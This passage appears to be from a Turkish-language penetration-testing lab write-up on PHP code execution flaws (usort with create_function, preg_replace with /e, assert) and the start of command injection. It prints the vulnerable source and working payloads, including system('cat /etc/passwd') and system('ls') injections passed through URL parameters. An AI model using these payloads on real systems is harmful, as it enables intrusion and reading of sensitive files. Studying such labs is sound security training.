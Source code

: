 ```php
require_once('../sqli/db.php');
$sql = "SELECT * FROM users ";
$order = $_GET["order"];
$result = mysql_query($sql);
if ($result) {
while ($row = mysql_fetch_assoc($result)) {
$users[] = new User($row['id'],$row['name'],$row['age']);
}
if (isset($order)) {
usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
}}
```

Payload :` id);}system('cat /etc/passwd');//`

usort fonksiyonu **create_function** fonksiyonu ile birliktede kullanılabilir bir arrayı sıralamaya yarar ama şart 
belirtirken bir fonksiyon kullanırız kısaca açıklarsak burada usortun dikkatsiz kullanımından ve alınan verinin 
incelenip ayıklanmamasından kaynaklanan bir zafiyet mevcut.

#### Example 3

Burada phpnin `preg_replace()` fonksiyonu kullanılmış. Bu fonksiyon kullanımı şu şekilde:

`preg_replace($pattern, $new, $base);`

php burada aldığı pattern regex’ine göre **\$base** değişkeni içerisinde değişlik yaparak \**$new** ifadesini koyuyor. Bilinmesi gereken ise regex ifadesi ile atraksiyonlar yapılabildiği. Burada eğer regex ifadenin en sonuna **“e”** yazılırsa \**$new** ile gelen ifade php tarafından bir fonksiyon olarak yorumlanıyor.

`/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer phpinfo()` fonksiyonunu çalışıtırabildik. Bu şekilde istenilen fonksiyo çalıştırılabilir. `/codeexec/example3.php?new=system("ls")&pattern=/lamer/e&base=Hello lamer`

#### Example 4

Bu bölümde ise hacker’ ifadesini parametre olarak verdiğimiz zaman karşımıza çıkan hatadan phpnin assert() fonksiyonunun kullanıldığını görebiliyoruz. Burada şu ifadeyi yazarak istediğimiz fonksiyonu çalıştırabiliriz. `/codeexec/example4.php?name=hacker'.system("ls");%23`

### COMMANDS INJECTION

Komut enjeksiyonu kullanıcıdan alınan sistem komutlarının sistemde çalıştırılmasından ve kullanıcıdan alınan verinin yine ve yine filtrelenmemesinden ve ayıklanmamasından kaynaklanan bir zafiyettir oldukça riskli bir zafiyettir sistemde herkes tarafından okunulabilen kritik dosyalar okunabilir.

#### Example 1

Burada bizden bir IP adresi alıyor ve o IP adresine ping atıyor sistemde şu şeklide bir komut çalıştığını tahmin edebiliriz.

`ping [IP]` peki ben URL de (get metodu ile alıyor) **;** ile satırı sonlandırıp farklı bir komut girersem ne olur?
